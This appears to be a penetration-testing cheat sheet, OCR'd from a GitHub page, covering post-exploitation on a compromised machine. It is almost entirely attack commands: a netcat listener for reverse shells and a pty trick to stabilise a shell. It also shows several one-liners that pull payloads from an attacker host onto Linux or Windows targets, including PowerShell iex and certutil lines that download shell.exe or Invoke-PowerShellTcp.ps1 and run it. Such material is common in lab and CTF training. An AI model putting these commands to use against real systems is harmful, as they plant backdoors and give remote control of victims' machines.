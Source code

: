 ```
```

### Upgrading Shell 
Listening for Connection
```
nc -lvp 1337
```

### Upgrade your unstable shell!
```
python -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty raw -echo
fg
```

### Running Python 3 http Server 
```
#Python 3
python3 -m http.server
#python 2
python -m SimpleHTTPServer
```

### Uploading Shell/File 
After getting shell, we may need to upload additional files or stable backdoor.

Start HTTP server in Kali:
```
python3 -m http.server
```

If target OS is Linux:
```
wget http://host:8000/file.bin -O /dev/shm/filename.bin
curl http://host:8000/file.bin -o /dev/shm/filename.bin
```

If target OS is Windows:
```
#Download and Execute powershell script
powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.15/Invoke-PowerShellTcp.ps1')

(New-Object Net.WebClient).DownloadFile("http://host/shell.exe","C:\Windows\Temp\shell.exe")
Invoke-WebRequest "http://host/shell.exe" -OutFile "shell.exe"
powershell.exe -c Invoke-WebRequest 10.10.0.67:8000/shell.exe -OutFile shell.exe

certutil -urlcache -split -f http://10.10.0.67:8000/shell.exe c:\windows\Temp\shell.exe && c:\windows\Temp\shell.exe

#Transfer with SMB Share. Attacker machine SMB server should be running
copy //host/shell.exe /path/shell.exe
```

